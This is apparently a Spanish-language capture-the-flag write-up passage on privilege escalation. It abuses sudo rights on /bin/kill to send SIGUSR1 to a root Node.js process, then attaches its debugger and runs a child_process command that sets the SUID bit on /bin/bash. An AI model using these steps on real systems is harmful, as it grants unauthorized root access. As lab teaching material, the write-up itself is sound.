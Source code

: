 ```bash
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-19 10:00:14
```

# Escalada de Privilegios

### Lenam

![image](https://github.com/user-attachments/assets/0339ff62-fab0-43d5-9809-f701d583a635)

podemos ejecutar el binario `/bin/kill` como root, buscando en `GTFOBINS` no aparece el binario `KILL` asi que lo busco en la biblia del `hacking` >>> `hacktricks`

![image](https://github.com/user-attachments/assets/90a3b8de-46c0-44a3-95bc-af7cb1e9e48f)

Privesc with kill

![image](https://github.com/user-attachments/assets/e656845f-b3ee-480e-9514-bf3590491207)

por lo visto se podria escalar privilegios si existe un proceso de `node js` ejecutandose como `root` o de otro usuario, por lo que chequeamos si esto sucede en nuestro contexto

![image](https://github.com/user-attachments/assets/3a293aff-f659-4da5-a17d-e231a7b8002a)

tenemos un proceso ejecutandose como `root` de `Node js` asi que continuamos con la escalada siguiendo los pasos en `hacktricks`


![image](https://github.com/user-attachments/assets/8ad010d2-ba53-4424-8886-48c0357e84f7)

enviamos la señal SIGUSR1 al proceso con `PID 53` 

```ruby
sudo /bin/kill -s SIGUSR1 53
```

ahora nos conectamos al `inspector/depurador`

![image](https://github.com/user-attachments/assets/8bda53a9-ad6c-451c-9cbc-1e972a372923)

conexion

```ruby
node inspect 127.0.0.1:9229
```
```bash
exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")
```

enviamos el comando pero no podemos ver si se ejecuta o no asi que salimos del depurador y validos el binario `/bin/bash`

![image](https://github.com/user-attachments/assets/e3bf0916-b5ff-47fd-8cba-3f6f6c5606fb)

se a ejecutado correctamente la asignacion del BIT SUID 
